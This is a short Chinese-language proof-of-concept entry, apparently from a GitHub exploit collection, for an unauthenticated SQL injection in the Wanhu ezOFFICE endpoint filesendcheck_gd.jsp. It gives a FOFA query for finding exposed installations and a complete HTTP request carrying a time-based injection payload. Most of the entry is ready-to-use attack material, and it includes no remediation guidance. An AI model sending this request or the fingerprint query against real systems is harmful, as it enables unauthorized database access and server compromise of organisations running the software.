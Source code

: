# 万户ezOFFICE系统接口filesendcheck_gd.jsp存在SQL注入漏洞

万户 ezOFFICE filesendcheck_gd.jsp 接口处存在SQL注入漏洞，未授权的攻击者可利用此漏洞获取数据库权限，深入利用可获取服务器权限。

## fofa

```yaml
app="万户ezOFFICE协同管理平台"
```

## poc

```javascript
GET /defaultroot/modules/govoffice/gov_documentmanager/filesendcheck_gd.jsp;.js?recordId=1;waitfor+delay+'0:0:5'-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409101024017.png)